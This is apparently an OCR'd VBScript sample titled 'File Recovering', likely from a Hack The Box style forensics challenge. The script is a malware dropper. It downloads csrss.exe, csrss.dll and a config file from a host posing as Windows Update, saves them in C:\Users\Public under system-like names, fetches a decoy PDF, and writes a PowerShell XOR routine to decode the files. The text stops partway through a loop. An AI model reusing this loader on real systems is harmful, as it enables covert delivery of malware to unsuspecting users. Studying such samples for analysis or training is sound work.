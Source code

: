 # File Recovering

```
Option Explicit
Dim objShell, objFSO, objHTTP
Dim strURL1, strURL2, strURL3, strShowfileURL
Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePath
Dim strExecutablePath, strPowerShellScript
strURL1 = "http://windowsupdate.htb/csrss.exe"
strURL2 = "http://windowsupdate.htb/csrss.dll"
strURL3 = "http://windowsupdate.htb/csrss.exe.config"
strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
strDownloadPath1 = "C:\Users\Public\csrss.exe"
strDownloadPath2 = "C:\Users\Public\csrss.dll"
strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
strShowfilePath = "C:\Users\Public\wanted.pdf"
strExecutablePath = "C:\Users\Public\csrss.exe"

Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objHTTP = CreateObject("MSXML2.XMLHTTP")

If Not objFSO.FileExists(strDownloadPath1) Then
    DownloadFile strURL1, strDownloadPath1
End If
If Not objFSO.FileExists(strDownloadPath2) Then
    DownloadFile strURL2, strDownloadPath2
End If
If Not objFSO.FileExists(strDownloadPath3) Then
    DownloadFile strURL3, strDownloadPath3
End If
If Not objFSO.FileExists(strShowfilePath) Then
    DownloadFile strShowfileURL, strShowfilePath
End If

strPowerShellScript = _
"param (" & vbCrLf & _
"    [string]$FilePath," & vbCrLf & _
"    [string]$KeyPath" & vbCrLf & _
")" & vbCrLf & _
"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
"$keyLength = $key.Length" & vbCrLf & _
"for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _
"}" & vbCrLf & _
"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

Dim objFile
On Error Resume Next
Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
If Err.Number <> 0 Then
    WScript.Echo "Error creating PowerShell script file: " & Err.Description
    WScript.Quit
End If
objFile.WriteLine strPowerShellScript
objFile.Close

Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

Dim i
For i = 0 To UBound(arrFilePaths)
```